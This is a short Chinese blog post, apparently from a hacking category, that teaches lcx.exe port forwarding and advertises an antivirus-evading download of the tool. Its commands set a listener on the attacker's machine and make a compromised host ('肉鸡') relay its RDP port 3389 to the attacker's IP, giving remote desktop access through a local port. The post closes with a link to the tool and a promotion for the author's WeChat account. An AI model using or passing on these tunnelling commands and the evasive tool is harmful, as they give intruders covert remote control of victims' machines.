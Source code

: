 ```yaml
---
layout: post
category: binghe-code-hack
title: lcx.exe内网转发命令教程-LCX免杀下载
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: lcx.exe内网转发命令教程-LCX免杀下载
lock: need
---
```


# lcx.exe内网转发命令教程-LCX免杀下载

本机: lcx -listen 2222 3333

2222为转发端口，3333为本机任意未被占用的端口

肉鸡：lcx -slave 192.168.109.137 2222 127.0.0.1 3389

192.168.109.137 为本机IP,2222为转发端口，127.0.0.1为肉鸡内网IP，3389为远程终端端口

3389连接时格式 127.0.0.1:3333

下载地址：https://download.csdn.net/download/l1028386804/10816160


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)